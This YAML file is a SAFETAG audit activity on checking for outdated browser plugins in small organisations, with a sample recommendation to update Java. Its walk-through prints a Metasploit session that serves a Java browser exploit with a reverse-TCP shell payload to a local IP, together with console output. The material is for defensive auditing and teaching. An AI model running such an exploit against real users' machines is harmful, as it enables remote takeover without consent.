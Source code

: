 ```yaml
---
title: Check Browser and Plugin Vulnerabilities
approaches:
  - Technical
authors:
  - SAFETAG
remote_options:
  - with-support
skills_required: []
skills_trained: []
summary: >

  Though modern browsers are better at self-updating, and the prevalence of
  powerful plugins like flash and java are slowly declining, it is valuable to
  ensure that the browsers in use have updated plugins and are themselves
  updated.
overview: ''
materials_needed: |

  * Metasploit
considerations: ''
walk_through: >

  ###### Outdated Java browser plugins


  While the threat described below is more severe if carried out by a local
  attacker (as they can more readily direct the victim to a malicious Web site),
  it also works remotely. In fact, if a user can be tricked, by a remote
  attacker, into clicking on a malicious email or Web link, attacks like this
  represent a significant perimeter threat. By compromising the victim’s
  machine, they can give the attacker a local point-of-presence without
  requiring the attacker to crack WPA keys or gain local access in some other
  way.


  Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious
  Web site:


  ```

  $ msfconsole


  IIIIII    dTb.dTb        _.---._
    II     4'  v  'B   .'"".'/|\`.""'.
    II     6.     .P  :  .' / | \ `.  :
    II     'T;. .;P'  '.'  /  |  \  `.'
    II      'T; ;P'    `. /   |   \ .'
  IIIIII     'YvP'       `-.__|__.-'


  I love shells --egypt


         =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
  + -- --=[ 1114 exploits - 627 auxiliary - 178 post

  + -- --=[ 307 payloads - 30 encoders - 8 nops


  msf > use exploit/multi/browser/java_jre17_exec


  msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp

  PAYLOAD => java/shell/reverse_tcp


  msf exploit(java_jre17_exec) > set LHOST 192.168.1.123

  LHOST => 192.168.1.123


  msf exploit(java_jre17_exec) > set SRVPORT 8081

  SRVPORT => 8081


  msf exploit(java_jre17_exec) > set URIPATH java_test

  URIPATH => java_test


  msf exploit(java_jre17_exec) > run

  [*] Exploit running as background job.

  ```


  Step 2: At this point, any local user who visits
  http://192.168.1.123:8081/java_test, and who is running a sufficiently
  out-of-date version of the Java browser plugin, stands a good chance of giving
  the attacker full access to his computer:


  ```

  [*] Started reverse handler on 192.168.1.123:4444


  msf exploit(java_jre17_exec) >


  [*] Using URL: http://0.0.0.0:8081/java_test

  [*] Local IP: http://192.168.1.123:8081/java_test

  [*] Server started.


  msf exploit(java_jre17_exec) >


  <remote shell>

  ```


  Figure 1: Attacker in control of the victim’s computer through a remote
  command shell
recommendations: >

  **Sample Recommendation for outdated Java**


  One or more of the organization’s laptops were seen to be running an outdated,
  known-vulnerable version of the Java plugin for Internet Explorer.


  This version contains a vulnerability that is easily exploitable using one of
  the recent Java exploit modules from the widely available Metasploit security
  auditing framework. These modules allow an attacker to gain complete control
  over the computer of a victim who visits a malicious Web site hosted anywhere
  on the Internet. If the attacker is inside the office LAN, they can easily
  trick the victim into visiting that malicious Web site without the victim even
  knowing it.


  At least one of the organization’s computers is running an outdated Java
  browser plugin, and exploit code is widely-available for several critical
  vulnerabilities in versions older than “Java 7, update 16.” All of the
  organization’s Java installations should be updated to the latest version.
  This can be troublesome, as (unlike the Windows operating system itself) Java
  plugins sometimes require user input before they will install updates.
organization_size_under: 25
time_required_minutes: 30
---
```


